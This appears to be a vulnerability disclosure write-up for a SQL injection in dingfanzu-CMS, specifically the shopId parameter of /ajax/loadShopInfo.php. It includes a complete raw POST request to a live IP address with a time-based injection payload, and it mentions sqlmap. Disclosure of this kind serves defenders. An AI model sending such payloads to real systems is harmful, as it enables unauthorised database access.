






## dingfanzu-CMS loadShopInfo.php shopId SQL inject

**Exploit Title**: dingfanzu-CMS loadShopInfo.php shopId SQL inject

**Exploit Author**: 

**Vendor Homepage**: https://github.com/geeeeeeeek/dingfanzu

**Software Link**: https://github.com/geeeeeeeek/dingfanzu

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters ,
so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection dingfanzu-CMS does not filter the content correctly at the "loadShopInfo.php" shopId parameter, resulting in the generation of SQL injection.

**Vulnerability Request Method** : POST

**Vulnerability Path**: /ajax/loadShopInfo.php?shopId=

**Vulnerability Proof**
**Payload**:
```
POST http://101.43.124.118:8001/ajax/loadShopInfo.php HTTP/1.1
Host: 101.43.124.118:8001
Accept: */*
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Origin: http://101.43.124.118:8001
Referer: http://101.43.124.118:8001/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=hacfqna2es59esaf3pka2ihpes; Hm_lvt_9bb651f2bb5622d49b0299560d6559cd=1739007054; Hm_lpvt_9bb651f2bb5622d49b0299560d6559cd=1739007054; HMACCOUNT=2798E5FBF5B7EBE0
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

shopId=1'+or+sleep(3)--+
```

### Proof of Concept

The code does not validate the input data and does not use precompilation technology




**Practical verification**：





**Use Sqlmap**：






